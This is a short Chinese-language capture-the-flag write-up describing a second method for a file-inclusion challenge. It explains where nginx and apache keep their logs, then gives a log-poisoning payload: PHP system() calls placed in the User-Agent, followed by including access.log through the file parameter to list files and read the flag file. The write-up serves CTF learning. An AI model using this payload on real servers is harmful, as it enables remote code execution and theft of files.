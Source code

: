 send以后得到flag

方法二：

Wappalyzer看一眼，发现用的是nginx

//nginx日志文件路径是/var/log/nginx/access.log和/var/log/nginx/error.log

//apache一般是/var/log/apache/access.log

//apache2一般是/var/log/apache2/access.log

//日志文件记录了服务器收到的每一次请求的IP、访问时间、URL、User-Agent，其中User-Agent不会被进行任何二次处理，无论我们发什么内容，服务器都会将其原封不动的写入日志。

Payload:

```
?file=/var/log/nginx/access.log

User Agent:<?php system('ls');?>

User Agent:<?php system('cat fl0g.php');?>
```

右键查看源码得到flag

